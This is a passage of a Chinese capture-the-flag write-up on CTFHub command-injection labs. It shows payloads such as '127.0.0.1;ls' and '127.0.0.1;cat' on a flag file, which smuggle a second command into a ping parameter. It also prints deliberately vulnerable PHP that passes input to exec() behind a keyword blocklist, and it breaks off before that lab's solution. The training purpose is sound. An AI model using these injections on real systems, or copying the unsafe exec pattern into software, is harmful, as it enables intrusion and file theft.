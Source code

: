 ```python
if ($res) {
    print_r($res);
}
?>
</pre>

<?php
show_source(__FILE__);
?>

</body>
</html>
```

其中过滤了运算符 我们同样还是寻找flag文件的位置

```python
?ip=127.0.0.1;ls
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736928572280-b9dd13b9-8226-43e0-94ea-2111903d937d.png)

发现flag文件 直接利用cat读取

```python
?ip=127.0.0.1;cat flag_600069243291.php
```

查看原代码后 发现flag

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736928660385-9707d1da-fdce-4ba9-a770-83c900b88881.png)

### **<font style="color:rgba(0, 0, 0, 0.85);">综合过滤练习</font>**
题目提示 <font style="color:#000000;">同时过滤了前面几个小节的内容</font>

```python

CTFHub 命令注入-综合练习
IP :

<?php

$res = FALSE;

if (isset($_GET['ip']) && $_GET['ip']) {
    $ip = $_GET['ip'];
    $m = [];
    if (!preg_match_all("/(\||&|;| |\/|cat|flag|ctfhub)/", $ip, $m)) {
        $cmd = "ping -c 4 {$ip}";
        exec($cmd, $res);
    } else {
        $res = $m;
    }
}
?>

<!DOCTYPE html>
<html>
<head>
    <title>CTFHub 命令注入-综合练习</title>
</head>
<body>

<h1>CTFHub 命令注入-综合练习</h1>

```